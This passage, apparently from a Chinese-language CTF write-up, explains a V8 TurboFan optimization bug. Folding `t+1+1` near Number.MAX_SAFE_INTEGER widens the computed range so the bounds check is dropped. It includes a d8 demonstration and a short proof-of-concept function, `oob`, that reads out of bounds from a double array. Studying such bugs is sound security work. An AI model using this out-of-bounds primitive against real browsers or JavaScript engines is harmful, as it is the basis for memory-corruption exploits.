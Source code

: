 之后它会将两个常数结点运算后替换成 `x+constant` ，这样在执行时就能减少一次运算了。

> 这里的加法即为 JIT 优化层面的运算，我们可以考虑这样一种情况：
> - Index[x] 未越界，可执行
> - Index[x+1+1] 未越界，可执行
> - Index[x+2] 越界，不可执行

不知您是否发现了某些问题，如果我们在代码层面写的是 `Index[x+1+1]` ，那么它是一条可执行的语句，而如果写 `Index[x+2]` 则会被检查出越界；那如果我们写入 `Index[x+1+1]` 使其通过检查后，让优化器把这段语句自动优化成了 `Index[x+2]` ，是否就能够绕过边界检查实现越界读写呢？

> 如果您熟悉 C 语言或是其他类似的编程语言，那么你或许不会认为把 `1+1` 优化为 `2` 是一种不合理的选择，但由于在 JavaScript 中的整数实际上是通过 double 类型的浮点数表示，因此就有可能在运算时发生问题。
> 例如，`Number.MAX_SAFE_INTEGER` 就表示能够安全运算的最大整数，超出该数的运算就有可能发生上述问题，但它并不禁止你使用这类整数，因此在编写代码时需要程序员自己注意。

我们可以直接上代码试试这个事实：

```shell
V8 version 7.3.0 (candidate)
d8> x=Number.MAX_SAFE_INTEGER
9007199254740991
d8> x=x+1
9007199254740992
d8> x=x+1
9007199254740992
d8> x=x+1
9007199254740992
```

这个事实在各个版本中都存在，尽管它并不一定算是个问题，但和题目的优化机制结合就变得可以利用了。

### 一个简单的越界
```js
function oob(x)
{
	var double_array=[1.1,2.2,3.3,4.4];
	//Number.MAX_SAFE_INTEGER=9007199254740991;
	let t=(x==0)?Number.MAX_SAFE_INTEGER-2:Number.MAX_SAFE_INTEGER+1;
	//Range(9007199254740991-2,9007199254740991+1);
	t=t+1+1;
	//优化前:Range(9007199254740991,9007199254740991+1);
	//优化后:Range(9007199254740991,9007199254740991+3);
	t=t-9007199254740989;
	//优化前:Range(2,3)
	//优化后:Range(2,5)
	return double_array[t];
}
console.log(oob(0));
console.log(oob(1));
%OptimizeFunctionOnNextCall(oob);
console.log(oob(1));
```

执行它将会打印出如下内容：
```shell
$ ./d8 exp.js --allow-natives-syntax --trace-turbo
3.3
4.4
0
```
